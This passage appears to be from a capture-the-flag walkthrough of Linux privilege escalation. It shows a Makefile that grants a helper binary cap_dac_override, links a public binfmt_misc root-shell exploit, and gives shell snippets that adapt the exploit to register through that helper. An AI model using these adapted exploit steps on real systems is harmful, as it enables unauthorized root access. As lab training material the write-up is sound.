 This file is executable by us, and it seems to use `binfmt_misc` or something. The `Makefile` would create the binary and within it, it runs `setcap`:

```bash
dev@retired:~/emuemu$ cat Makefile 
CC := gcc
CFLAGS := -std=c99 -Wall -Werror -Wextra -Wpedantic -Wconversion -Wsign-conversion

SOURCES := $(wildcard *.c)
TARGETS := $(SOURCES:.c=)

.PHONY: install clean

install: $(TARGETS)
        @echo "[+] Installing program files"
        install --mode 0755 emuemu /usr/bin/
        mkdir --parent --mode 0755 /usr/lib/emuemu /usr/lib/binfmt.d
        install --mode 0750 --group dev reg_helper /usr/lib/emuemu/
        setcap cap_dac_override=ep /usr/lib/emuemu/reg_helper

        @echo "[+] Register OSTRICH ROMs for execution with EMUEMU"
        echo ':EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:' \
                | tee /usr/lib/binfmt.d/emuemu.conf \
                | /usr/lib/emuemu/reg_helper

clean:
        rm -f -- $(TARGETS)
```

So this bianry has `cap_dac_override` capability. There are some exploits for `binfmt_misc` that would spawn a `root` shell if we can write to the `/proc/sys/fs/binfmt_misc/register` file, of which this binary can.

{% embed url="https://github.com/toffan/binfmt_misc" %}

We have to edit the exploit a bit. First we can remove all the checks on the writeability of the above file:

```bash
#function not_writeable()
#{
#	test ! -w "$mountpoint/register"
#}

# not_writeable && die "Error: $mountpoint/register is not writeable"
```

Then, since `reg_helper` is the binary that is allowed to write to that file, we have to change the last few lines of the exploit to use that binary instead:

```bash
binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper

exec "$target"
```
